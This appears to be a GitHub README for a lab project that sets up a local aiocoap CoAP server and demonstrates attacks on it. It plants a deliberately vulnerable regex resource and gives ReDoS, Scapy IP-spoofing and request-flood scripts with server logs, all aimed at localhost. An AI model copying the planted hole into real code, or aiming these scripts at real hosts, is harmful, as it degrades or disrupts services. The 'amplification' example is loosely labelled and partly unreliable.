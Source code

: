 # Constrained Application Protocol (CoAP) 

## Installation
To install a CoAP (Constrained Application Protocol) server with logging enabled, Here are general steps for setting up a CoAP server using a popular library in Python called aiocoap, which is an asynchronous CoAP framework:
source: https://git.fslab.de/jkonra2m/aiocoapMC
## Prerequisites
+ Python 3.7 or higher
+ pip (Python package installer)
+ It imports the necessary modules from Python's asyncio library for asynchronous programming and various components from the aiocoap library.

## CoAP Server Installation
https://github.com/chrysn/aiocoap/blob/master/server.py

aiocoap is published under the MIT License, and follows the best practice of reuse.software.
aiocoap was originally based on txThings by Maciej Wasilak. The full list of aiocoap contributors can be obtained from the version control history.

## Output
```bash
INFO:websockets.server:server listening on [::]:8683
INFO:websockets.server:server listening on 0.0.0.0:8683
DEBUG:coap-server:Server ready to receive requests
```
# Attacks
For the Constrained Application Protocol (CoAP), various types of attacks are identified, as detailed in the provided document. Here's a list of attacks on the CoAP protocol:

1. **Regular Expression Denial of Service (ReDoS)**: This attack exploits inefficiencies in regular expression processing algorithms to create service denials. Implement a regex in the CoAP resource that is known for causing performance issues when given specially crafted inputs, such as (a+)+$.
[hier](https://owasp.org/www-community/attacks/Regular_expression_Denial_of_Service_-_ReDoS) can find more information about this attack in details.
Depending on what your CoAP resource processes, payloads or URI paths that exploit the regex vulnerability. For instance, if the CoAP server uses a regex to validate query parameters, your malicious input would be included as a query parameter in the CoAP request.
## Change in server.py
new resource called RegexResource and library added to the server.
This resource and liberary 're' uses a vulnerable regex to parse the input.
```python
import re

class RegexResource(resource.Resource):
    
    async def render_get(self, request):

        pattern = r"^(a+)+$"
        input_string = request.payload.decode('utf-8')
        
        if re.match(pattern, input_string):
            return aiocoap.Message(content_format=ContentFormat.TEXT, payload=b"Matched")
        else:
            return aiocoap.Message(content_format=ContentFormat.TEXT, payload=b"Not Matched")

# Add this resource to the server
root.add_resource(['vulnerable'], RegexResource())
```
## Exploit
```python
async def main():
    context = await Context.create_client_context()

    payload = b"a" * 50000  # Long sequence of 'a's
    request = Message(code=GET, payload=payload, uri="coap://localhost/vulnerable")

    response = await context.request(request).response

    print('Result: %s\n%r' % (response.code, response.payload))

if __name__ == "__main__":
    asyncio.run(main())
```
## Func
This Exploit sends a very long string of 'a's to the server, which, due to the regex (a+)+$, causes catastrophic backtracking, potentially freezing or significantly slowing down the server. This illustrates a basic ReDoS attack scenario.
## Output
```bash
INFO:websockets.server:server listening on 0.0.0.0:8683
INFO:websockets.server:server listening on [::]:8683
DEBUG:coap-server:Server ready to receive requests
DEBUG:coap-server:Incoming message <aiocoap.Message at 0x7fd47051d850: CON GET (MID 16783, token 5bde) remote <UDP6EndpointAddress [::1]:54173 (locally ::1%lo)>, 3 option(s), 1024 byte(s) payload>
DEBUG:coap-server:New unique message received
INFO:coap-server:Render request raised a renderable error (ContinueException(BlockwiseTuple(block_number=0, more=True, size_exponent=6))), responding accordingly.
DEBUG:coap-server:Sending message <aiocoap.Message at 0x7fd470554110: ACK 2.31 Continue (MID 16783, token 5bde) remote <UDP6EndpointAddress [::1]:54173 (locally ::1%lo)>, 1 option(s)>
DEBUG:coap-server:Incoming message <aiocoap.Message at 0x7fd470537f90: CON GET (MID 16784, token 5bdf) remote <UDP6EndpointAddress [::1]:54173 (locally ::1%lo)>, 3 option(s), 1024 byte(s) payload>
DEBUG:coap-server:New unique message received
INFO:coap-server:Render request raised a renderable error (ContinueException(BlockwiseTuple(block_number=1, more=True, size_exponent=6))), responding accordingly.
DEBUG:coap-server:Sending message <aiocoap.Message at 0x7fd470554b10: ACK 2.31 Continue (MID 16784, token 5bdf) remote <UDP6EndpointAddress [::1]:54173 (locally ::1%lo)>, 1 option(s)>
DEBUG:coap-server:Incoming message <aiocoap.Message at 0x7fd470554a50: CON GET (MID 16785, token 5be0) remote <UDP6EndpointAddress [::1]:54173 (locally ::1%lo)>, 3 option(s), 1024 byte(s) payload>
DEBUG:coap-server:New unique message received
INFO:coap-server:Render request raised a renderable error (ContinueException(BlockwiseTuple(block_number=2, more=True, size_exponent=6))), responding accordingly.
DEBUG:coap-server:Sending message <aiocoap.Message at 0x7fd470555610: ACK 2.31 Continue (MID 16785, token 5be0) remote <UDP6EndpointAddress [::1]:54173 (locally ::1%lo)>, 1 option(s)>
DEBUG:coap-server:Incoming message <aiocoap.Message at 0x7fd470555550: CON GET (MID 16786, token 5be1) remote <UDP6EndpointAddress [::1]:54173 (locally ::1%lo)>, 3 option(s), 1024 byte(s) payload>
DEBUG:coap-server:New unique message received
INFO:coap-server:Render request raised a renderable error (ContinueException(BlockwiseTuple(block_number=3, more=True, size_exponent=6))), responding accordingly.
DEBUG:coap-server:Sending message <aiocoap.Message at 0x7fd4705560d0: ACK 2.31 Continue (MID 16786, token 5be1) remote <UDP6EndpointAddress [::1]:54173 (locally ::1%lo)>, 1 option(s)>
DEBUG:coap-server:Incoming message <aiocoap.Message at 0x7fd470556010: CON GET (MID 16787, token 5be2) remote <UDP6EndpointAddress [::1]:54173 (locally ::1%lo)>, 3 option(s), 1024 byte(s) payload>
.
.
block_number 4 until 46
.
.
DEBUG:coap-server:New unique message received
INFO:coap-server:Render request raised a renderable error (ContinueException(BlockwiseTuple(block_number=47, more=True, size_exponent=6))), responding accordingly.
DEBUG:coap-server:Sending message <aiocoap.Message at 0x7fd470577c90: ACK 2.31 Continue (MID 16830, token 5c0d) remote <UDP6EndpointAddress [::1]:54173 (locally ::1%lo)>, 1 option(s)>
DEBUG:coap-server:Incoming message <aiocoap.Message at 0x7fd470577bd0: CON GET (MID 16831, token 5c0e) remote <UDP6EndpointAddress [::1]:54173 (locally ::1%lo)>, 3 option(s), 848 byte(s) payload>
DEBUG:coap-server:New unique message received
DEBUG:coap-server:Sending message <aiocoap.Message at 0x7fd47057c710: ACK 2.05 Content (MID 16831, token 5c0e) remote <UDP6EndpointAddress [::1]:54173 (locally ::1%lo)>, 2 option(s), 7 byte(s) payload>

```
2. **IP Address Spoofing**: [Exploiting the remote server access support of CoAP protocol]
This involves altering the sending IP address within UDP packets to impersonate another device or service.
With Scapy, we can simply craft packets and send them. So, if we spoof the source address and send it, the network accepts and returns the response to the spoofed address. Now, we can create a script to ping a system with a spoofed IP [Python Penetration Testing Cookbook]. 
Scapy is a powerful interactive packet manipulation library written in Python. Scapy is able to forge or decode packets of a wide number of protocols, send them on the wire, capture them, match requests and replies, and much more.[https://scapy.net/]
## Exploit
```python
from scapy.all import *
from scapy.layers.inet import IP, UDP
from scapy.contrib.coap import *

def send_spoofed_packet(target_ip, spoofed_ip, target_port=5683):
    coap_layer = CoAP(type=1, code=1)
    udp_layer = UDP(sport=RandShort(), dport=target_port)
    ip_layer = IP(src=spoofed_ip, dst=target_ip)

    packet = ip_layer / udp_layer / coap_layer
    send(packet)

target_ip = '127.0.0.1'  # Target aiocoap server IP
spoofed_ip = '127.0.0.1'  # Spoofed source IP

send_spoofed_packet(target_ip, spoofed_ip)

```   
3. **Replay Attacks**: This type of attack captures legitimate messages and resends them to perform unauthorized operations.
    source: https://www.ietf.org/archive/id/draft-ietf-core-attacks-on-coap-04.html
4. **Relay Attacks**: These attacks involve capturing and retransmitting messages in real-time, which can be used to bypass authentication mechanisms.
   
5. **Injection Attacks**: These occur by intercepting a TCP communication to inject malicious TCP segments into legitimate packets, carrying modified CoAP messages that interfere with server operations.
   
6. **CoAP Amplification DoS Attack**: Attackers send multiple CoAP GET requests to create large responses from small requests, thereby straining network resources and amplifying traffic.

## Exploit
```python
import asyncio
from aiocoap import *

async def main():
    context = await Context.create_client_context()
    for _ in range(100):
        request = Message(code=GET, uri="coap://127.0.0.1/amplifiable_resource")
        try:
            response = await context.request(request).response
            print('Result: %s\n%r' % (response.code, response.payload))
        except Exception as e:
            print('Failed to fetch resource:')
            print(e)
        await asyncio.sleep(1)

if __name__ == "__main__":
    asyncio.get_event_loop().run_until_complete(main())
```
## Func

## Output
```bash
DEBUG:coap-server:Incoming message <aiocoap.Message at 0x7f7062c34310: CON GET (MID 50232, token 3847) remote <UDP6EndpointAddress [::1]:37270 (locally ::1%lo)>, 2 option(s)>
DEBUG:coap-server:New unique message received
DEBUG:coap-server:Sending message <aiocoap.Message at 0x7f7062c60110: ACK 2.05 Content (MID 50232, token 3847) remote <UDP6EndpointAddress [::1]:37270 (locally ::1%lo)>, 1 option(s), 202 byte(s) payload>
DEBUG:coap-server:Incoming message <aiocoap.Message at 0x7f7062c37ed0: CON GET (MID 50233, token 3848) remote <UDP6EndpointAddress [::1]:37270 (locally ::1%lo)>, 2 option(s)>
DEBUG:coap-server:New unique message received
DEBUG:coap-server:Sending message <aiocoap.Message at 0x7f7062c61050: ACK 2.05 Content (MID 50233, token 3848) remote <UDP6EndpointAddress [::1]:37270 (locally ::1%lo)>, 1 option(s), 202 byte(s) payload>
DEBUG:coap-server:Incoming message <aiocoap.Message at 0x7f7062c60950: CON GET (MID 50234, token 3849) remote <UDP6EndpointAddress [::1]:37270 (locally ::1%lo)>, 2 option(s)>
DEBUG:coap-server:New unique message received
... too many
```
7. **Reflective Denial of Service (DoS)**: Employing legitimate requests to third-party servers that are then amplified and reflected back to the victim .

These attacks exploit various aspects of the CoAP protocol and its implementations, highlighting the importance of robust security measures to mitigate these threats.